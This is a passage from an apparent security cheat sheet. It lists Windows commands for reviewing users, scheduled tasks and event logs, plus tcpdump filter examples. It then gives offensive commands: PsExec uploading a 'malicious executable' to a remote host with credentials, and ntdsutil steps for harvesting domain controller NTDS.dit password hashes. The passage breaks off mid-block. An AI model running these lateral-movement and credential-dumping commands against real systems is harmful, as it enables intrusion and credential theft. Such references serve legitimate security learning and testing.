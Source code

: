 net user
net localgroup <group>
```

## Examining Unusual Scheduled Tasks:

```
schtasks
```

## Examining Unusual Log Entries:

```
wevutil qe security /f:text
Get-EventLog -LogName Security | Format-List -Property *
```

## TCPDump

```
tcpdump -i <interface> # Capture, can use "any" 
tcpdump -i <interface> -w <file> # Write to a file after capture
tcpdump -r <file> -n # Read from a file and don't resolve hosts and ports
tcpdump -r <file> -n -A # Read from a file and don't resolve hosts and ports, show as ASCII

# Berkeley Packet Filtering

tcpdump -r <file> 'host 8.8.8.8'
tcpdump -r <file> 'src host 8.8.8.8'
tcpdump -r <file> 'not src host 8.8.8.8'
tcpdump -r <file> 'icmp and (src host 8.8.8.8'
```
## PSExec'ing:

Running PsExec by uploading malicious executable:

```
# This will continue the PsExec session through named pipe, and will only terminate once the process is terminated. Additionally this -c parameter will manually cleanup the executable.
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -c update.exe

# This will kill the PsExec session and leave the malicious executable on disk
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -d update.exe
```

## Windows Domain Controller Hash Harvesting:

GOAL: Obtain ```NTDS.dit``` and SYSTEM registry hive data

```
C:\Users\RoseSecurity> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\ntds
